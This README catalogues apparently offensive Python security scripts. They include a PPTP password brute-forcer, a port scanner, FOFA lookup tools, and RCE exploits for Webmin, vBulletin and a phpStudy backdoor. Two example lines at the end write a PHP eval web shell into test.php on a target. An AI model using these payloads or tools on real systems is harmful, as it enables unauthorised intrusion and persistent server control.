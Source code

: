 # Homework-of-Python
Python codes of my blog.

### pptp_password_hack.py

Use Brute-force attack to get the password of PPTP VPN.

It'll read the passwords in file(named wordlist) and then use pptpsetup to connect to the server.

The time interval is 10 seconds.


### portscan.py

Use to scan port.

The timeout is 3 seconds.

c++ version：

https://github.com/3gstudent/Homework-of-C-Language/blob/master/portscan.cpp

### urltoip.py

Use to get ip from url.

I can use the result of Sublist3r directly.

### file_deduplication(For_urltoip).py

Use to remove duplicate ip from the result of Sublist3r.

I can use the result of urltoip.py directly.

The IP can be sorted by using Sublime(F9).

### file_deduplication.py

Use to remove duplicate items from file.

### Webmin<=1.920-Unauthenticated_RCE(CVE-2019-15107).py

Reference:

https://pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html

### fofa_api.py

Used to call fofa's api and print the IP from the results.

You can get 100 results.

### fofa_api_VIP.py

Used to call fofa's api and print the IP from the results.

If you're VIP,you'll get 10000 results.

### vBulletin_5.x_0day_pre-auth_RCE.py

Reference:

https://seclists.org/fulldisclosure/2019/Sep/31

Eg.

```
echo \<?php @eval\(\$_POST[pwd]\)\;?\> >test.php
```

### phpStudy_5.2-5.45_(php_xmlrpc.dll)_backdoor_RCE.py

Reference:

https://mp.weixin.qq.com/s/dTzWfYGdkNqEl0vd72oC2w

Eg.

```
system('cmd /c "echo ^<?php @eval(^$_POST[pwd]);?^> >D:\phpstudy\WWW\test.php"');
```



